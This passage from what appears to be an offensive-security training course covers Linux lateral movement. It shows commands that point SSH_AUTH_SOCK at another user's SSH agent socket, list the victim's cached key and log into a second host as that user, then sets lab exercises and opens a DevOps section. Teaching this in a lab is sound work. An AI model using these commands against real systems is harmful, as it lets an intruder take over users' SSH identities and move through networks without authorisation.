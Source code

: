 > Listing 29 - SSH process environment file

This variable lets SSH-Agent know where its socket file is located.

In Listing 29, we found the SSH auth socket was located at SSH\_AUTH\_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380.

As an elevated user, we can use the victim's SSH agent socket file as if it were our own.

```
root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l
3072 SHA256:6cyHlr9fISx9kcgR9+1crO1Hnc+nVw0mnmQ/Em5KSfo kali@kali (RSA)

root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
Last login: Thu Jul 30 11:14:26 2020 from 192.168.120.40
offsec@linuxvictim:~$
```

> Listing 30 - Using the victim's SSH agent socket as our own

The first command sets our current privileged user's _SSH\_AUTH\_SOCK_ environment variable to the open SSH socket of our victim. We then use ssh-add -l to show that the key is in our SSH Agent cache.

In the second command, we re-set the environment variable for the socket and then are able to ssh to the linuxvictim host as the victim user.

SSH hijacking can be a useful tool for lateral movement within a network. In the next section, we'll inspect an infrastructure tool commonly used to configure Linux systems and learn how it can be used for lateral movement.

**Exercises**

1. Reproduce ControlMaster hijacking in the lab.
2. Reproduce SSH-Agent forwarding hijacking in the lab.

1

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Unix\_file\_types#Socket](https://en.wikipedia.org/wiki/Unix_file_types#Socket) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_556-1)

### 17.2. DevOps

DevOps[1](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fn-local_id_557-1) is an overall strategy used to promote consistency and automation. In particular, Devops applies to management of software builds, system changes, and infrastructure modifications. While a thorough exploration of DevOps is outside the scope of this module, it is helpful to recognize this trend toward increasing and improving process automation in modern companies.

DevOps technologies make traditional infrastructure and configuration tasks much more streamlined and efficient. They can quickly make configuration changes or system deployments that would have taken much more time. In some cases, these deployments are nearly instantaneous.

Due to the automated nature of these systems and the impact they can have on system output or corporate infrastructure, they can be useful to an attacker who wants to traverse internal networks.
